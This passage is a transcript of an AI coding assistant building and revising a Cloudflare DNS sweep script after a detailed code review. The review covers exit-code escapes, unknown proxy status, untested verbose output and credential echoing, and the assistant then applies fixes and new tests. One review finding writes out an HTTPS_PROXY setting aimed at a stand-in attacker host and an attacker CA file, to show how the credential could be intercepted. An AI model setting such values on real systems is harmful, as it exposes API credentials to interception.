`research.md` is unambiguous about what this field does downstream: *"`proxied: true` is the load-bearing field in both directions. A record created DNS-only would take the hostname out of certificate service (and, on a partial zone, out of automatic DCV)."* A `None` that becomes `false` therefore (a) inflates the headline "DNS-only, invisible to `fqdns.json`" count that is the whole point of the summary, and (b) hands a destructive rewriter an instruction to re-create a proxied hostname unproxied — a TLS outage, caused by an unreported coercion.

PD#1: *"Every failure mode must be visible."*

**Fix:** store `getattr(dns_record, "proxied", None)` verbatim (`null` in JSON), count `proxied is False` for the DNS-only tally, and emit an `ATTENTION:` for any entry whose `proxied` is `None`. Change the test to pin *that*, and add a row to R5.

### 5. Testing — the entire `-v` contract and the stdout-purity invariant are unverified

`grep -n verbose SPEC.md` shows no test ever calls `fetch_platform_cnames(client, verbose=True)`. §6's `-v` row specifies four distinct outputs (the `[n/total] zone <name> -- N records` line, the `(total_count unavailable, not cross-checked)` marker, the re-read-triggered notice, the re-read-resolved notice) and **none** of them is asserted anywhere. Task 7 Step 1 runs the live sweep with `-v`, so the first exercise of that code is against production.

Likewise, `grep -n "readouterr().out"` returns nothing: the four `main()` tests read only `.err`. R6's *"stdout carries only argparse's usage / `--help` text"* is pinned by no automated check, and §13 records that *"stdout is unused"* was already a claim this spec got wrong once. A stray `print()` to stdout ships green.

PD#14: *"A green check is a claim, not evidence, until it has been shown capable of going red on the condition it guards."*

**Fix:** one `verbose=True` test with `capsys` asserting the per-zone line, the not-cross-checked marker, and both re-read notices; and `assert capsys.readouterr().out == ""` in the `main()` tests.

### 6. Clarity / Correctness — two broken cross-references that ship inside the code, one of them the exact defect §13 says it fixed

SPEC line 1856, in `main()`'s docstring: *"that is accepted and documented in SPEC section 5.4."* **There is no §5.4.** §5 is the shadow-path table; exit 120 is documented in R6 and §8.4. SPEC line 963: *"a code section 6 does not use"* — §6 is Observability; the exit-code table is **R6** (line 852 gets this right: *"a code SPEC section R6 does not use"*).

§13 round 2 records: *"§13 cited '§5.5' | That section no longer existed after the round-1 rewrite."* The same failure has been reintroduced, this time into a permanent code comment rather than the spec. Root cause is structural: the document numbers sections `§1…§14` *and* requirements `R1…R8`, so `§4`/`R4` and `§6`/`R6` collide.

Spec quality bar: *"Every referenced file has a path a fresh session can resolve."*

**Fix:** correct both comments (`R6`; `§8.4`), and renumber `R1`–`R8` as `§2.1`–`§2.8` (they already live under §2) so the collision cannot recur.

---

# Findings — real but smaller

### 7. Security / Completeness — R2a's "four routes" is exhaustive only for the SDK, and the test cannot see a fifth

R2a says *"It reads **six** variables, and ambient values reach the wire by **four** routes"*, and the test docstring claims *"an SDK that captured credentials at construction, **or added a fifth route**, would make this go red."* It would not. The SDK builds its httpx client with `trust_env=True` (I read it off the live client: `c._client.trust_env` → `True`), so the ambient environment has at least two more paths to where the credential travels. Both reproduced:

```
$ HTTPS_PROXY=http://evil.example:8080  → c._client._mounts is non-empty (a proxy transport is mounted)
$ SSL_CERT_FILE=/tmp/attacker-ca.pem    → client construction raises FileNotFoundError
```

A proxy plus an attacker trust store is the same outcome route 4 is called *"strictly worse"* for. (The `SSL_CERT_FILE` case is also another un-named `FileNotFoundError` escaping to exit 1 — the same class as finding 1.) The test's `leaked = set(request.headers.values()) & set(AMBIENT_CLOUDFLARE_VARS.values())` shape only ever detects the six values it names.

PD#6: *"New code paths get threat-modeled."* Spec bar: *"Every list marked exhaustive or illustrative."*

**Fix:** either scope the claim honestly — retitle the table "four routes *the SDK itself* opens" and add a stated residual for httpx `trust_env` (proxy env vars, `SSL_CERT_FILE`/`SSL_CERT_DIR`), with the decision recorded — or close it with `http_client=httpx.Client(trust_env=False)` and say why. Adjust the test docstring's "fifth route" claim either way, and fold the `SSL_CERT_FILE` `FileNotFoundError` into finding 1's fix.

### 8. Robustness / Completeness — PD#7 is not addressed anywhere

A transient failure on zone 40 of 43 (past the SDK's two automatic retries — `DEFAULT_MAX_RETRIES = 2`, `_constants.py:10`), or a Ctrl-C, discards the entire sweep. There is no partial artifact and no resume, and §8 "NOT in scope" — which is otherwise commendably thorough — never mentions it. The sibling utility got explicit treatment here (a re-run command naming every unreached site); this spec is silent.

PD#7: *"Runs are not atomic. A run can die partway… Plan for partial states."* PD#9: *"Everything deferred is written down. Vague intentions are lies."*

**Fix:** add a §8 entry stating the decision and its reason (the file must be internally consistent, the sweep is idempotent, and the only cost of a re-run is time — and record the measured runtime in §12, which will show whether that stays true).

### 9. Robustness — the truncation guard's blind spot is unstated

The re-read accepts any second read that agrees with its *own* `total_count`. A truncation whose `total_count` is derived from the same truncated query (first read short; second read short and self-consistent) is accepted as a "concurrent change" and written silently — the guard degenerates to "the counts agree", which is the assumption it exists to distrust. Nothing in R3 or §14 says so.

PD#14: *"A test, golden, fixture, shim, counter, log line, or metric is code, and can be silently wrong."*

**Fix:** one sentence in R3 naming the residual, and include both reads' counts in the (now default-verbosity, per finding 3) re-read notice so an operator can judge.

### 10. Security (minor) — error text echoes the raw marker body, which can contain an inline default credential

Both `resolve_env_marker` raises interpolate `<{{{expr}}}` — the whole marker body. For the `<{env NAME DEFAULT}` form the default may be a literal credential, which then lands on stderr and in any captured operator log. This matches the main engine's behaviour (`configuration.py:99` prints `value: {argv}`), so it is not novel — but PD#6 (*"Route secrets through config `<{secret env …}>` substitutions"*) makes it worth an explicit decision rather than an inherited one. **Fix:** print the config key and the variable name, not the body — or record the accepted risk in R2.

### 11. Clarity (minor) — the finished import block is never shown; "finding 3" references resolve to nothing

§3 and each task give imports as prose lists. I had to derive the isort ordering myself to assemble the script (`import sys` in the wrong slot produced an `I001` on my first attempt). Ruff catches it, but only after the implementer has written it. Separately, three comments/docstrings cite *"adversarial review, finding 3"* / *"round 2, finding 3"*; §13's tables are unnumbered, so those citations resolve to nothing from the artifact. **Fix:** show the finished top-of-file import block once in §3 as the target state; number §13's rows (or drop the "finding N" citations).

### 12. Terminology, PD#11 (minor) — the glossary silently re-defines a term `CONTEXT.md` already owns

`CONTEXT.md` defines **Custom domain** as *"A hostname a site owner connected to a site environment (`example.umich.edu`). Pantheon labels these `type: custom`."* The SPEC's glossary defines it as *"A hostname an institution owns that points at a platform domain."* — a different concept (Cloudflare-side, and defined by what it points at). **Platform domain** matches, correctly. New domain vocabulary introduced here (**DNS-only**, and `origin`'s deliberately narrowed meaning) never reaches `CONTEXT.md`.

PD#11: *"Terminology stays clear and consistent — within the new design and across the existing codebase… write each resolution into `CONTEXT.md` **the moment it crystallizes** — don't batch them."*

**Fix:** align the custom-domain wording to `CONTEXT.md` (or cite it rather than restate it), and add **DNS-only** there. Implementation terms (`fold`, `entry`, `marker`) correctly stay out of `CONTEXT.md` per `docs/agents/domain.md`'s split.

---

# Stylistic preferences only — do not block on these

- `pytestmark = pytest.mark.unit` on a file whose write tests do real filesystem I/O, against the marker's registered description *"pure/in-process function tests, no I/O"*. Consistent with existing repo practice; ignore.
- Task 7 Step 3 `open("fqdns.json")` will `FileNotFoundError` if the file is absent. It is a hand-run step behind a STOP; a one-line note would be enough.
- §13 round 1's *"Test counts 8 / 21 / 32 / 35 / 38 | Off by one per task"* — the first number was not off by one. Historical-record cosmetics.

---

# Per-dimension verdict, with relative weight

| # | Dimension | Weight here | Verdict |
|---|---|---|---|
| 1 | **Correctness** | **Highest** — the file drives a destructive rewrite | **FAIL** — findings 1, 2, 4, 6 |
| 2 | **Completeness** | High | **FAIL** — findings 7, 8 (PD#7 absent entirely) |
| 3 | **Consistency** | High — the spec states invariants its own code breaks | **FAIL** — findings 2, 3, 6 |
| 4 | **Clarity** | Medium | **PASS with nits** — 6, 11 |
| 5 | **Feasibility** | Low risk | **PASS** — I built and ran it end to end from the spec's blocks alone |
| 6 | **Maintainability** | Low — temporary by design, PROMPT sanctions the duplication | **PASS** — §11's deletion checklist is complete and matches the tooling I read |
| 7 | **Robustness/fragility** | **High** — unpinned SDK, silent-truncation threat model | **FAIL** — findings 2, 8, 9 (mitigated well by the three real-SDK tests, which I confirmed red-capable) |
| 8 | **Security** | Medium-high | **FAIL** — findings 7, 10. The four SDK routes are genuinely closed; the exhaustiveness claim is not |
| 9 | **Testing** | **Highest** (PD#14) | **FAIL** — finding 5. Every criterion the spec *does* state was run and reproduced exactly; the gap is what it never wrote a criterion for |
| 10 | **Observability** | High — PD#5 makes it scope | **FAIL** — findings 3, 4 |

**Convergence signals:** findings 1 and 6 are *re-instances of defect classes §13 already records as fixed* (exit-1 escape from an unnamed exception; a dangling section reference). Finding 3 is a **partial** fix of a round-2 finding that §13 records as complete. Those three are the ones I would not let ship on the "two rounds already cleared it" argument — the earlier rounds fixed the instances, not the classes.

Everything else the two prior rounds found, I re-derived as genuinely fixed.
agentId: ad243a786a7a2027a (use SendMessage with to: 'ad243a786a7a2027a', summary: '<5-10 word recap>' to continue this agent)
<usage>subagent_tokens: 212665
tool_uses: 52
duration_ms: 850240</usage>
```

## Assistant

Round 3: **12 findings, 6 blocking** — and the reviewer independently reproduced my entire acceptance run (all five staged checkpoints, the SDK line references, the 120 exits, the pinned-client headers) before finding them. Three are re-instances of defect *classes* §13 already claims to have fixed, which is the signal that matters.

The 3-round cap is on re-dispatching, not on fixing. Applying the code fixes:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\n\n# --- F1: UnicodeDecodeError escaped as exit 1.  Close the CLASS, not the instance. --------\ns = s.replace('''    except tomllib.TOMLDecodeError as e:\n        raise StartupError(f\"{config_path} is not valid TOML: {e}\") from e''',\n'''    except ValueError as e:\n        # ValueError, not TOMLDecodeError: tomllib.load decodes the bytes itself, so a config\n        # file that is not valid UTF-8 raises UnicodeDecodeError -- which is NOT a\n        # TOMLDecodeError, and escaped as a raw traceback at exit 1 (a code section R6 does not\n        # use).  Both are ValueError subclasses, so one clause closes the class rather than the\n        # instance -- the third time this defect class appeared (SPEC section 13).\n        raise StartupError(f\"{config_path} is not valid TOML: {e}\") from e''')\n\n# --- F10: never echo the marker body (an inline default may be a credential) --------------\ns = s.replace('''        raise StartupError(f\"{where}: malformed substitution <{{{expr}}}: {e}\") from e''',\n'''        # The body is NOT echoed: the <{env NAME DEFAULT} form can carry a literal credential\n        # as its default, and this message reaches stderr and any operator log.\n        raise StartupError(f\"{where}: malformed substitution ({e})\") from e''')\ns = s.replace('''        raise StartupError(\n            f\"{where}: this script resolves only <{{env NAME}} and <{{secret env NAME}} \"\n            f\"substitutions (each with an optional default), not <{{{expr}}}.  Put a literal or \"\n            \"an environment-backed value there.\")''',\n'''        raise StartupError(\n            f\"{where}: this script resolves only <{{env NAME}} and <{{secret env NAME}} \"\n            f\"substitutions (each with an optional default), not \"\n            f\"'{' '.join(argv[:2]) or '(empty)'}'.  Put a literal or an environment-backed value \"\n            \"there.  (The rest of the body is withheld: a default can be a credential.)\")''')\n\n# --- F7: an ambient SSL_CERT_FILE makes the constructor raise FileNotFoundError -----------\ns = s.replace('''    client = Cloudflare(**creds, base_url=API_BASE_URL)''',\n'''    try:\n        client = Cloudflare(**creds, base_url=API_BASE_URL)\n    except OSError as e:\n        # httpx builds its SSL context from the ambient environment (trust_env=True), so an\n        # $SSL_CERT_FILE pointing at a missing path raises here -- another unnamed escape to\n        # exit 1 if left alone (SPEC section R2a, residual routes).\n        raise StartupError(f\"could not build the Cloudflare client: {e}\") from e''')\np.write_text(s)\nprint(\"F1, F7, F10 applied\")\nPY",
  "description": "Fix the exit-1 escapes and the credential echo"
}
```

### ↳ Tool result

```
F1, F7, F10 applied
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\n\n# --- F2: a re-read WITHOUT total_count must no-op, not abort ------------------------------\ns = s.replace('''    retry_page = fetch()\n    retry_items = list(retry_page)\n    retry_expected = expected_record_count(retry_page)\n    if retry_expected is not None and len(retry_items) == retry_expected:\n        if notify:\n            notify(f\"{what}: re-read agrees ({len(retry_items)} of {retry_expected}) -- something \"\n                   \"changed mid-sweep, continuing with the re-read\")\n        return retry_items, True\n    raise StartupError(\n        f\"{what}: read {len(items)} of {expected}, then {len(retry_items)} of {retry_expected} \"\n        \"on a re-read -- the list is truncated, so the output would be silently incomplete; \"\n        \"not writing a partial file\")''',\n'''    retry_page = fetch()\n    retry_items = list(retry_page)\n    retry_expected = expected_record_count(retry_page)\n    if retry_expected is None:\n        # Same no-op rule the first read gets: absent total_count means the guard cannot judge,\n        # and guessing here would abort a COMPLETE re-read while reporting \"truncated ... of\n        # None\".  Report it as unchecked instead.\n        notify(f\"{what}: re-read returned {len(retry_items)} with no total_count -- cannot \"\n               \"cross-check, continuing with the re-read and counting this list as unchecked\")\n        return retry_items, False\n    if len(retry_items) == retry_expected:\n        notify(f\"{what}: re-read agrees ({len(retry_items)} of {retry_expected}; first read saw \"\n               f\"{len(items)} of {expected}) -- something changed mid-sweep, continuing with the \"\n               \"re-read\")\n        return retry_items, True\n    raise StartupError(\n        f\"{what}: read {len(items)} of {expected}, then {len(retry_items)} of {retry_expected} \"\n        \"on a re-read -- the list is truncated, so the output would be silently incomplete; \"\n        \"not writing a partial file\")''')\n\n# --- F3: re-read notices are NOT -v-gated; they mean the data moved under the sweep -------\ns = s.replace('''def read_all(fetch, what, notify=None):''', '''def read_all(fetch, what, notify):''')\ns = s.replace('''    if notify:\n        notify(f\"{what}: read {len(items)} of {expected}; re-reading to tell a concurrent \"\n               \"change apart from a truncated list\")''',\n'''    notify(f\"{what}: read {len(items)} of {expected}; re-reading to tell a concurrent change \"\n           \"apart from a truncated list\")''')\ns = s.replace('''    Returns (items, checked).  `checked` is False when the API supplied no total_count: a guard\n    whose own liveness is invisible is not a guard, so the caller reports the coverage.''',\n'''    Returns (items, checked).  `checked` is False when total_count was unavailable on the read\n    whose items are returned: a guard whose own liveness is invisible is not a guard, so the\n    caller reports the coverage for every list it read.\n\n    `notify` is NOT the -v gate.  It is only ever called on the rare re-read path, and a re-read\n    means the data moved under the sweep -- something an operator wants to see on a default run,\n    not only when they happened to pass -v.''')\n\n# --- F3/F9: coverage for ALL THREE list kinds, not just records ---------------------------\ns = s.replace('''    entries: dict          # the output mapping, keyed by normalized FQDN\n    warnings: list         # duplicate-name ATTENTION lines, printed before the write\n    accounts: int          # accounts listed\n    zones: int             # zones listed across those accounts\n    records: int           # DNS records actually read and inspected\n    zones_checked: int     # zones whose record count Cloudflare let us cross-check''',\n'''    entries: dict            # the output mapping, keyed by normalized FQDN\n    warnings: list           # duplicate-name ATTENTION lines, printed before the write\n    accounts: int            # accounts listed\n    zones: int               # zones listed across those accounts\n    records: int             # DNS records actually read and inspected\n    records_checked: int     # of `zones`   -- record lists Cloudflare let us cross-check\n    zone_lists_checked: int  # of `accounts`-- per-account zone lists cross-checked\n    account_list_checked: int  # of 1       -- the account list itself''')\n\ns = s.replace('''    try:\n        accounts, _ = read_all(client.accounts.list, \"accounts\", note)\n        zones = []\n        for account in accounts:\n            got, _ = read_all(\n                lambda account_id=account.id: client.zones.list(account={\"id\": account_id}),\n                f\"zones in account {account.id}\", note)\n            zones.extend(got)''',\n'''    try:\n        accounts, account_checked = read_all(client.accounts.list, \"the account list\", warn)\n        zones = []\n        zone_lists_checked = 0\n        for account in accounts:\n            # The default argument binds this account's id at definition time; a bare closure\n            # over the loop variable would re-read the LAST account on every retry (ruff B023).\n            got, checked = read_all(\n                lambda account_id=account.id: client.zones.list(account={\"id\": account_id}),\n                f\"the zone list for account {account.id}\", warn)\n            zone_lists_checked += 1 if checked else 0\n            zones.extend(got)''')\ns = s.replace('''            records, checked = read_all(\n                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),\n                f\"zone {zone.name}\", note)''',\n'''            records, checked = read_all(\n                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),\n                f\"the record list for zone {zone.name}\", warn)''')\ns = s.replace('''    return SweepResult(entries, warnings, len(accounts), len(zones),\n                       tally[\"records\"], tally[\"checked\"])''',\n'''    return SweepResult(entries, warnings, len(accounts), len(zones), tally[\"records\"],\n                       tally[\"checked\"], zone_lists_checked, 1 if account_checked else 0)''')\ns = s.replace('''    def note(message):\n        if verbose:\n            print(message, file=sys.stderr, flush=True)\n''',\n'''    def note(message):\n        \"\"\"Per-zone progress: -v only.\"\"\"\n        if verbose:\n            print(message, file=sys.stderr, flush=True)\n\n    def warn(message):\n        \"\"\"Re-read notices: ALWAYS printed.  A re-read means the data moved mid-sweep.\"\"\"\n        print(message, file=sys.stderr, flush=True)\n''')\np.write_text(s)\nprint(\"F2, F3, F9 applied\")\nPY",
  "description": "Fix the re-read no-op, coverage scope, and notice gating"
}
```

### ↳ Tool result

```
F2, F3, F9 applied
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\n\n# --- F4: never coerce an unknown proxy status to False --------------------------------\ns = s.replace('''                # proxied is Optional[bool] on every record model (a None is possible); the\n                # getattr default also keeps the fold total for the namespace test fakes.\n                \"proxied\": bool(getattr(dns_record, \"proxied\", False)),''',\n'''                # Stored VERBATIM, never coerced.  proxied is Optional[bool] on every record\n                # model, and research.md is explicit that \"proxied: true is the load-bearing\n                # field in both directions\" -- a None flattened to false would inflate the\n                # DNS-only count AND instruct a rewriter to re-create a proxied hostname\n                # unproxied, taking it out of certificate service.  An unknown stays null and\n                # main() calls it out.\n                \"proxied\": getattr(dns_record, \"proxied\", None),''')\n\n# --- F4/F3: summary counts only definite DNS-only, and names any unknown ---------------\ns = s.replace('''        dns_only = sum(1 for entry in entries.values() if not entry[\"proxied\"])''',\n'''        # `is False`, not falsy: an unknown proxy status is null and must not be counted as\n        # DNS-only -- that count is the headline number this script exists to produce.\n        dns_only = sum(1 for entry in entries.values() if entry[\"proxied\"] is False)\n        unknown_proxy = sorted(n for n, e in entries.items() if e[\"proxied\"] is None)''')\ns = s.replace('''        print(f\"Truncation cross-check active for {sweep.zones_checked} of {sweep.zones} zones.\",\n              file=sys.stderr, flush=True)''',\n'''        print(f\"Truncation cross-check active for {sweep.records_checked} of {sweep.zones} \"\n              f\"record lists, {sweep.zone_lists_checked} of {sweep.accounts} zone lists, and \"\n              f\"{sweep.account_list_checked} of 1 account list.\", file=sys.stderr, flush=True)\n        if unknown_proxy:\n            print(f\":exclamation: ATTENTION: {len(unknown_proxy)} entr\"\n                  f\"{'y has' if len(unknown_proxy) == 1 else 'ies have'} an unknown proxy status \"\n                  f\"(null, not false): {', '.join(unknown_proxy)} -- a rewriter MUST NOT treat \"\n                  \"these as DNS-only.\", file=sys.stderr, flush=True)''')\np.write_text(s)\nprint(\"F4 applied\")\nPY\ngrep -n \"exclamation\" /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/find-platform-domains-cloudflare",
  "description": "Stop coercing unknown proxy status"
}
```

### ↳ Tool result

```
F4 applied
522:            print(f":exclamation: ATTENTION: {len(unknown_proxy)} entr"
Shell cwd was reset to /workspace
```

## Assistant

`:exclamation:` is rich markup and this script doesn't use rich — it would print literally. Fixing that, then updating the tests:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\np = pathlib.Path(\"find-platform-domains-cloudflare\"); s = p.read_text()\ns = s.replace('print(f\":exclamation: ATTENTION: {len(unknown_proxy)} entr\"',\n              'print(f\"ATTENTION: {len(unknown_proxy)} entr\"')\np.write_text(s)\n\nt = pathlib.Path(\"test_find_platform_domains_cloudflare.py\"); ts = t.read_text()\n\n# F10: the unsupported-form message no longer echoes the whole body\nts = ts.replace('''    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{secret aws cloudflare/token}\", \"where\")\n    assert \"secret aws cloudflare/token\" in str(caught.value)''',\n'''    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{secret aws cloudflare/token}\", \"where\")\n    assert \"secret aws\" in str(caught.value)\n    # The rest of the body is withheld on purpose: an <{env NAME DEFAULT} default can be a\n    # literal credential, and this message reaches stderr and any operator log.\n    assert \"cloudflare/token\" not in str(caught.value)''')\n\n# F4: proxied is stored verbatim now\nts = ts.replace('''    entries, _ = fpc.collect_entries([(\"zone-a\", bare)])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"proxied\"] is False\n    assert entry[\"ttl\"] is None''',\n'''    entries, _ = fpc.collect_entries([(\"zone-a\", bare)])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"proxied\"] is None      # unknown, NOT coerced to False -- see R5\n    assert entry[\"ttl\"] is None''')\n\n# SweepResult grew two fields: fix the three main() fakes\nts = ts.replace('''        [\"ATTENTION: something worth seeing\"], 1, 4, 12431, 3))''',\n                '''        [\"ATTENTION: something worth seeing\"], 1, 4, 12431, 3, 1, 1))''')\nts = ts.replace('''lambda client, verbose=False: fpc.SweepResult({}, [], 1, 4, 900, 4))''',\n                '''lambda client, verbose=False: fpc.SweepResult({}, [], 1, 4, 900, 4, 1, 1))''')\nts = ts.replace('''lambda client, verbose=False: fpc.SweepResult({}, [], 1, 1, 0, 1))''',\n                '''lambda client, verbose=False: fpc.SweepResult({}, [], 1, 1, 0, 1, 1, 1))''')\nts = ts.replace('''    assert \"Truncation cross-check active for 3 of 4 zones.\" in err''',\n                '''    assert (\"Truncation cross-check active for 3 of 4 record lists, 1 of 1 zone lists, \"\n            \"and 1 of 1 account list.\") in err''')\n\n# the walk tests now read the renamed/extra SweepResult fields\nts = ts.replace('''    assert (sweep.accounts, sweep.zones, sweep.records) == (1, 2, 3)\n    assert sweep.zones_checked == 2''',\n'''    assert (sweep.accounts, sweep.zones, sweep.records) == (1, 2, 3)\n    assert sweep.records_checked == 2''')\nts = ts.replace('''    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.zones_checked == 1''',\n'''    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.records_checked == 1''')\nts = ts.replace('''    assert list(sweep.entries) == [\"www.example.edu\"]\n    assert sweep.zones_checked == 1\n    assert sweep.zones == 2''',\n'''    assert list(sweep.entries) == [\"www.example.edu\"]\n    assert sweep.records_checked == 1\n    assert sweep.zones == 2''')\nts = ts.replace('''    assert \"read 1 of 3\" in str(caught.value)''',\n                '''    assert \"read 1 of 3\" in str(caught.value)\n    assert \"record list for zone\" in str(caught.value)''')\nts = ts.replace('''    assert \"zones in account acct-1\" in str(caught.value)''',\n                '''    assert \"zone list for account acct-1\" in str(caught.value)''')\nt.write_text(ts)\nprint(\"tests updated\")\nPY",
  "description": "Update tests for the new contracts"
}
```

### ↳ Tool result

```
tests updated
Shell cwd was reset to /workspace
```

## Assistant

Now adding the tests round 3 found missing (the `-v` contract, stdout purity, and the new paths):

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && python - <<'PY'\nimport pathlib\nt = pathlib.Path(\"test_find_platform_domains_cloudflare.py\"); ts = t.read_text()\n\n# F1: non-UTF-8 config -- appended to the Task 2 section\nts = ts.replace('''def test_cloudflare_client_with_a_missing_file_is_a_startup_error(fpc, tmp_path):\n    with pytest.raises(fpc.StartupError):\n        fpc.cloudflare_client(str(tmp_path / \"nope.toml\"))''',\n'''def test_cloudflare_client_with_a_missing_file_is_a_startup_error(fpc, tmp_path):\n    with pytest.raises(fpc.StartupError):\n        fpc.cloudflare_client(str(tmp_path / \"nope.toml\"))\n\n\ndef test_cloudflare_client_with_a_non_utf8_file_is_a_startup_error(fpc, tmp_path):\n    \"\"\"tomllib.load decodes the bytes itself, so a non-UTF-8 config raises UnicodeDecodeError --\n    NOT a TOMLDecodeError.  It escaped as a raw traceback at exit 1 until the guard was widened\n    to ValueError, which is the common base of both (round 3, finding 1).\"\"\"\n    path = tmp_path / \"config.toml\"\n    path.write_bytes(b'[Cloudflare]\\\\napi_token = \"caf\\\\xe9\"\\\\n')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(str(path))\n    assert \"not valid TOML\" in str(caught.value)''')\n\n# F2 + F5: appended to the Task 5 section, before the main() tests\nts = ts.replace('''def test_main_writes_the_file_and_reports_the_dns_only_count(''',\n'''def test_read_all_does_not_abort_when_the_reread_omits_total_count(fpc):\n    \"\"\"R3's no-op rule applies to BOTH reads.  Guessing on the second aborted a COMPLETE re-read\n    while reporting \"truncated ... of None\" (round 3, finding 2).\"\"\"\n    pages = iter([FakePage([[record()]], total_count=2),\n                  FakePage([[record(), record(id=\"rec-2\")]], with_result_info=False)])\n    said = []\n    items, checked = fpc.read_all(lambda: next(pages), \"the record list for zone x\", said.append)\n    assert len(items) == 2\n    assert checked is False              # counted as unchecked, not asserted as verified\n    assert any(\"cannot cross-check\" in m for m in said)\n\n\ndef test_a_reread_is_reported_without_v(fpc, capsys):\n    \"\"\"A re-read means the data moved under the sweep -- an operator wants that on a default run,\n    not only when they happened to pass -v (round 3, finding 3).\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\")]], total_count=2),\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\"),\n                       record(name=\"b.example.edu\", id=\"rec-2\")]], total_count=2),\n        ]})\n    fpc.fetch_platform_cnames(client, verbose=False)\n    err = capsys.readouterr().err\n    assert \"re-reading to tell a concurrent change apart\" in err\n    assert \"re-read agrees\" in err\n\n\ndef test_verbose_reports_each_zone_and_whether_it_was_cross_checked(fpc, capsys):\n    \"\"\"SPEC section 6's -v contract, which nothing asserted until round 3 finding 5.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], total_count=1)],\n                       \"zone-b\": [FakePage([[record(name=\"b.example.org\")]],\n                                           with_result_info=False)]})\n    fpc.fetch_platform_cnames(client, verbose=True)\n    err = capsys.readouterr().err\n    assert \"[1/2] zone example.edu -- 1 records\" in err\n    assert \"[2/2] zone example.org -- 1 records (total_count unavailable, not cross-checked)\" in err\n\n\ndef test_main_writes_the_file_and_reports_the_dns_only_count(''')\n\n# F4: unknown proxy status is called out and not counted as DNS-only\nts = ts.replace('''def test_main_says_so_when_nothing_matched(''',\n'''def test_main_does_not_count_an_unknown_proxy_status_as_dns_only(fpc, tmp_path, monkeypatch,\n                                                                 capsys):\n    \"\"\"research.md: \"proxied: true is the load-bearing field in both directions\".  A null\n    flattened to false would inflate the headline count AND tell a rewriter to re-create a\n    proxied hostname unproxied (round 3, finding 4).\"\"\"\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    entry = {\"zone_id\": \"z\", \"origins\": [\"live-a.pantheonsite.io\"], \"record_id\": \"r\",\n             \"proxied\": None, \"ttl\": 1, \"comment\": None, \"tags\": [], \"settings\": None}\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\", lambda client, verbose=False:\n                        fpc.SweepResult({\"a.example.edu\": entry}, [], 1, 1, 1, 1, 1, 1))\n    assert fpc.main([]) == 0\n    err = capsys.readouterr().err\n    assert \"(0 DNS-only\" in err\n    assert \"unknown proxy status\" in err\n    assert \"a.example.edu\" in err\n\n\ndef test_main_says_so_when_nothing_matched(''')\n\n# F5: stdout purity\nts = ts.replace('''    assert \"from 12431 records in 4 zones in 1 account(s)\" in err''',\n'''    assert \"from 12431 records in 4 zones in 1 account(s)\" in err\n    assert captured.out == \"\", \"stdout carries only argparse output (SPEC R6)\"''')\nts = ts.replace('''    err = capsys.readouterr().err\n    assert \"ATTENTION: something worth seeing\" in err''',\n'''    captured = capsys.readouterr()\n    err = captured.err\n    assert \"ATTENTION: something worth seeing\" in err''')\nt.write_text(ts)\nprint(\"new tests added\")\nPY\ncp find-platform-domains-cloudflare probe/ && cp test_find_platform_domains_cloudflare.py probe/tests/unit/ && cd probe && chmod +x find-platform-domains-cloudflare && source /workspace/.venv/bin/activate && python -m pytest tests/unit -q -p no:cacheprovider 2>&1 | tail -12",
  "description": "Add the missing tests and run"
}
```

### ↳ Tool result

```
new tests added
    def test_resolve_config_value_rejects_a_substitution_it_cannot_resolve(fpc):
        with pytest.raises(fpc.StartupError) as caught:
            fpc.resolve_config_value("<{secret aws cloudflare/token}", "where")
>       assert "secret aws" in str(caught.value)
E       assert 'secret aws' in 'where: this script resolves only <{env NAME} and <{secret env NAME} substitutions (each with an optional default), no...ut a literal or an environment-backed value there.  (The rest of the body is withheld: a default can be a credential.)'
E        +  where 'where: this script resolves only <{env NAME} and <{secret env NAME} substitutions (each with an optional default), no...ut a literal or an environment-backed value there.  (The rest of the body is withheld: a default can be a credential.)' = str(StartupError("where: this script resolves only <{env NAME} and <{secret env NAME} substitutions (each with an optional...t a literal or an environment-backed value there.  (The rest of the body is withheld: a default can be a credential.)"))
